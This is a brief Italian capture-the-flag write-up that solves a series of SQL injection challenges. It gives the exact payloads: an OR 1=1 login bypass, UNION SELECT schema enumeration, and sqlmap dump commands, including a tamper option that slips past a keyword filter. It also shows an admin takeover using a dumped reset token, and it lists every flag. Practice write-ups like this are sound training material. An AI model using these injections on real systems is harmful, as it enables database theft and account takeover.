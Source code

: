 # SQL Injection lvl 1
```mysql
poop' OR 1=1-- '  // CCIT{1s_ths_h0w_l0g1ns_w0rk}
```


# SQL Injection lvl 2`
```mysql
1' UNION SELECT 1, 2, 3, 4, 5, table_name FROM INFORMATION_SCHEMA.tables -- '     -- Tabella 'real_data'.
1' UNION SELECT 1, 2, 3, 4, 5, column_name FROM INFORMATION_SCHEMA.columns -- '   -- Colonna 'FLAG'.
1' UNION SELECT 1, 2, 3, 4, 5, FLAG FROM real_data -- '`                          -- CCIT{Uni0ns_4re_so_tr1vi4l}.
```


# SQL Injection lvl 3
```bash
sqlmap -r inj_lvl_3.txt --dbs                                    -- Trovo il database bliddb.
sqlmap -r inj_lvl_3.txt -D blinddb --tables                      -- Trovo la tabella 'secret'.
sqlmap -r inj_lvl_3.txt -D blinddb -T secret --columns           -- Trovo la colonna 'asecret'.
sqlmap -r inj_lvl_3.txt -D blinddb -T secret -C asecret --dump   -- CCIT{A_bl1ndy_fl4g}.
```


# SQL Injection lvl 4
```bash
sqlmap -r inj_lvl_4.txt --dbs                               -- Trovo il database timedb.
sqlmap -r inj_lvl_4.txt -D timedb --tables                  -- Trovo la tabella 'flags'.
sqlmap -r inj_lvl_4.txt -D timedb -T flags --columns        -- Trovo la colonna 'flag'.
sqlmap -r inj_lvl_4.txt -D timedb -T flags -C flag --dump   -- CCIT{Dont_trus7_tim3}.
```

# Filtered
```bash
sqlmap -u http://149.202.200.158:5111/post.php?id=* --dbs                                                          -- Trovo il db 'filtered'.
sqlmap -u http://149.202.200.158:5111/post.php?id=* -D --tables                                                    -- Trovo la tabella 'flaggy'.
sqlmap -u http://149.202.200.158:5111/post.php?id=#1 --tamper=symboliclogical --hex -D filtered -T flaggy --dump   -- CCIT{Bl4ckl1sts_Ar3_s0_c00l}
```
Se si usa un altro tamper la funzione is_hackerz lo blocca, dato che non ammette le keyword 'UNION' e 'AND', cosi bypassiamo questa cosa usando '&&' anziche 'AND'.


# Yet Another Blog
```bash
sqlmap -u http://yetanotherblog.challs.cyberchallenge.it/post.php?id=* --dbs                                -- Trovo il database 'yet_another_blog'.
sqlmap -u http://yetanotherblog.challs.cyberchallenge.it/post.php?id=* -D yet_another_blog --tables         -- Trovo la tabella 'users'.
sqlmap -u http://yetanotherblog.challs.cyberchallenge.it/post.php?id=* -D yet_another_blog -T users --dump
```
Prendo il 'reset token' e cambio la password di 'admin', effetto il login e ricevo la falg. -> `CCIT{Hash_y0ur_r3s3t_t0ken_t00}`.
